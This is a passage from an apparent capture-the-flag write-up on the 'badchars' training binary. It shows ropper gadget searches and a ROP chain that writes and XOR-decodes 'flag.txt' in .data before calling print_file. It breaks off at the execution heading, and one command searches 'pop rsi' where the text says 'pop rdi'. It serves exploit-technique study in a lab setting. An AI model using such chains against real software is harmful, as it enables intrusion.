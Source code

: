  So type the following command to search for gadgets.

`ropper --file badchars -b 6178672e --search "mov [%]"`


![image](ropper output)

From the output `mov qword ptr [r13], r12; ret;` gadget will do the trick.

So let's find the `pop` gadget to pop the address of `.data` into `r13` register and `flag.txt` into `r12` register. Type the following command

`ropper --file badchars -b 6178672e --search "pop"`

![image](pop output)

`pop r12; pop r13; pop r14; pop r15; ret;` will do our job.

Let's also find a `pop r15; ret;` and `pop rdi; ret;` gadget.

`ropper --file badchars -b 6178672e --search "pop r15; ret;"`

`ropper --file badchars -b 6178672e --search "pop rsi; ret;"`

![image](pop r15)

![image](pop rdi)

We are set up to write the `flag.txt` in our `.data` section. Below is the rough sketch of ROP chain which we are going to use to execute the attack.

```
ROP Chain

Address of `pop r12; pop r13; pop r14; pop r15; ret;` gadget.
`flag.txt` string
Address of .data section              (0x0000000000601028)
0x3                                   (To XOR the character)
0x0000000000601028 + 2                (Address pointing to `b` in `flbd-t{t`)
Address of `mov qword ptr[r13], r12; ret` gadget
Address of `xor byte ptr [r15], r14b; ret;`
Address of `pop r15; ret;`
0x0000000000601028 + 3                (Address pointing to `d` in `flbd-t{t`)
Address of `xor byte ptr [r15], r14b; ret;`
Address of `pop r15; ret;`
0x0000000000601028 + 4                (Address pointing to `-` in `flbd-t{t`)
Address of `xor byte ptr [r15], r14b; ret;`
Address of `pop r15; ret;`
0x0000000000601028 + 6                (Address pointing to `{` in `flbd-t{t`)
Address of `xor byte ptr [r15], r14b; ret;`
Address of `pop rdi; ret;`
Address of `print_file@plt`
```


## **Executing the Attack**
